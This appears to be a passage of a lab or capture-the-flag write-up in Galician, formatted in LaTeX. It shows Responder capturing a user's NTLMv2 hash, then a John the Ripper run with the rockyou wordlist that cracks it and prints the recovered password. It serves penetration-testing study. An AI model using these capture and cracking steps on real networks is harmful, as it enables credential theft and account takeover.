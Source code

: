\documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=Sniffer responder]
[+] Current Session Variables:
    Responder Machine Name     [WIN-2S5JDT8VEO7]
    Responder Domain Name      [3YAN.LOCAL]
    Responder DCE-RPC Port     [49003]

[+] Listening for events...

[HTTP] Sending NTLM authentication request to ::ffff:10.10.10.248
[HTTP] GET request from: ::ffff:10.10.10.248  URL: / 
[HTTP] NTLMv2 Client   : ::ffff:10.10.10.248
[HTTP] NTLMv2 Username : template\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::template:4745f99d526a968f:8C3FB7124A598E1E864702B5BBB383DE:
01010000000000000284F919EB79D80176795955FBE9F75500000000020008003300590041004E0001001E00570049004E00
2D003200530035004A00440054003800560045004F003700040014003300590041004E002E004C004F00430041004C000300
3400570049004E002D003200530035004A00440054003800560045004F0037002E003300590041004E002E004C004F004300
41004C00050014003300590041004E002E004C004F00430041004C0008003000300000000000000000000000002000000CB2
EC22769648DCD4A1DB26024C76D5E79BB1E85FEE97E0F4DD9AFF37F06B2E0A00100000000000000000000000000000000000
09003A0048005400540050002F0077006500620032006F006C0069002E0069006E00740065006C006C006900670065006E00
630065002E006800740062000000000000000000\end{lstlisting}

\subsubsection{Credenciais usuario Ted.Graves}
Conseguimos o hash do usuario \textbf{Ted.Graves}, do cal imos intentar descubrir o contrasinal mediante \textbf{John The Ripper}:
        \begin{lstlisting}[language=Bash, caption=Credenciais Ted.Graves]
$ cat hashes-responder.txt;john --wordlist=/usr/share/wordlists/rockyou.txt hashes-responder.txt 
Ted.Graves::template:a9780eb466b95a59:10416D644E2D09301C630203DB065696:01010000000000003E19B11AE
B79D8015D4A55333B8D8FFA00000000020008003300590041004E0001001E00570049004E002D003200530035004A0044005
4003800560045004F003700040014003300590041004E002E004C004F00430041004C0003003400570049004E002D0032005
30035004A00440054003800560045004F0037002E003300590041004E002E004C004F00430041004C0005001400330059004
1004E002E004C004F00430041004C0008003000300000000000000000000000002000000CB2EC22769648DCD4A1DB26024C7
6D5E79BB1E85FEE97E0F4DD9AFF37F06B2E0A001000000000000000000000000000000000000900380048005400540050002
F007700650062006F006C0069002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:17 44.58% (ETA: 21:22:34) 0g/s 381934p/s 381934c/s 381934C/s kodima..kodikastimis
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:28 DONE (2022-06-06 21:22) 0.03497g/s 378254p/s 378254c/s 378254C/s Mr.bobo..Mr.Smith5
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.\end{lstlisting} 
 
\end{document}
